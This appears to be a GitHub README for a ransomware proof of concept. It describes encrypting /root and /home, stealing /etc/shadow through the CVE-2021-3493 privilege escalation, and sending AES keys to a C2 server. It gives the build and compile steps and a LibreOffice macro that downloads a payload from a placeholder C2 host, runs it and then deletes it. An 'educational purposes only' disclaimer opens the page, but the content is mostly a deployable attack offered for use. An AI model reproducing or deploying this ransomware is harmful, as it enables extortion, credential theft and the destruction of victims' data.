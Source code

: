 # Ransomware
> [!WARNING]
> EDUCATIONAL PURPOSES ONLY
>
>This project is intended solely for educational and research purposes in the context of cybersecurity training. It is designed to study and understand ransomware mechanics in a legal and controlled environment.
>
>DO NOT use this code for malicious purposes. Deploying ransomware on any system without explicit permission is illegal and can result in severe legal consequences.
>
>By using this project, you agree to abide by all applicable laws and take full responsibility for your actions. The author assumes no liability for any misuse.

## Description

This repository is a PoC of a ransomware that encrypts `/root` and `/home` directories and exfiltrates the `/etc/shadow` file using the CVE-2021-3493 vulnerability. It encrypts the file using AES and sends the AES key to the C2 server, where it is encrypted using RSA.

The target machine must meet the following requirements:
- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 19.04
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

Additionally, the Linux kernel version must be < 5.11.

The original exploit can be found here: [CVE-2021-3493 exploit](https://github.com/briskets/CVE-2021-3493)

## Requirement

```bash
sudo apt update
sudo apt install wget make gcc libssl-dev xz-utils build-essential pkg-confi
pip instal -r requirements.txt
```
The execution of macros must be authorized, and the AppArmor sandbox for LibreOffice must be disabled.


## Generating RSA Keys
Before anything else, we need to generate our RSA key pair.

Run the following commands to create your private and public keys:
```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048  
openssl rsa -pubout -in private.pem -out public.pem  
```

## Make the binary static
We need to build the libcurl library. Follow these steps:
```bash
wget https://curl.se/download/curl-8.12.1.tar.xz
tar xvf curl-8.12.1.tar.xz
cd  curl-8.12.1
CC=gcc ./configure --disable-shared --enable-static --prefix=/tmp/curl --disable-ldap --disable-sspi --without-librtmp --disable-ftp --disable-file --disable-dict --disable-telnet --disable-tftp --disable-rtsp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-smb --without-libidn --without-ssl --without-nghttp2 --disable-mqtt --without-zlib --without-brotli --without-zstd --without-libpsl --without-libidn2 --disable-docs
make && make install
```
For simplicity, this build process is also defined in the Makefile.

## Malicious file
To deploy the ransomware, we will use a malicious file.odt that contains a malicious macro:
```vba
Sub Main
	Shell("bash -c 'wget http://{C2_SERVER_IP}:8000/ -O /tmp/not_a_malware && chmod +x /tmp/not_a_malware && /tmp/not_a_malware && rm /tmp/not_a_malware'")
End Sub
```
Check this link for instructions on how to add it: [LibreOffice Macro Exploit](https://exploit-notes.hdks.org/exploit/malware/libreoffice-macros/).

## Compiling
Simply run the following command to compile the project:
```bash
make SERVER_IP="{C2_SERVER_IP}"
```

## Demo
[!Demo](https://github.com/user-attachments/assets/36d123e0-5b12-43f4-bb25-d6675cae70b7)
